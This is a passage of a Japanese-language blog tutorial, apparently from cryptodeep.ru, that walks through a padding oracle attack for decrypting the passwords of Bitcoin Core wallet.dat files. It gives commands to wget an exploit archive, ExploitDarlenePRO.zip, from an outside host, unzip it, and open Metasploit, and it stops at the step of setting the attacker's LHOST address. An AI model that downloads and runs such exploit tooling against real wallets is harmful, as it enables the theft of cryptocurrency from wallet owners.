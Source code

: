 !wget https://darlene.pro/repository/fe9b4545d58e43c1704b0135383e5f124f36e40cb54d29112d8ae7babadae791/ExploitDarlenePRO.zip</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-97-1024x455.png" alt="人気のビットコインコアウォレットのWallet.datパスワード復号化に対するOracle攻撃のパディング" class="wp-image-4197"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><code>ExploitDarlenePRO.zip</code>ユーティリティを使用してコンテンツを解凍します<code>unzip</code></p>



<pre class="wp-block-code"><code>!unzip ExploitDarlenePRO.zip</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-98-1024x462.png" alt="人気のビットコインコアウォレットのWallet.datパスワード復号化に対するOracle攻撃のパディング" class="wp-image-4199"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>カタログを見てみましょう:<code>/ExploitDarlenePRO/</code></p>



<pre class="wp-block-code"><code>ls

cd ExploitDarlenePRO/

ls</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-4.png" alt="人気のビットコインコアウォレットのWallet.datパスワード復号化に対するOracle攻撃のパディング"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>エクスプロイトを実行するには、に戻りましょう<code><strong>Metasploit Framework</strong></code></p>



<pre class="wp-block-code"><code>cd /

cd content/metasploit-framework/

ls</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-101-1024x477.png" alt="人気のビットコインコアウォレットのWallet.datパスワード復号化に対するOracle攻撃のパディング" class="wp-image-4205"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong><code>LHOST&nbsp;(Local Host)</code></strong>攻撃している&nbsp;<strong><code>IP-address</code></strong>仮想マシンを特定する必要があります。</p>
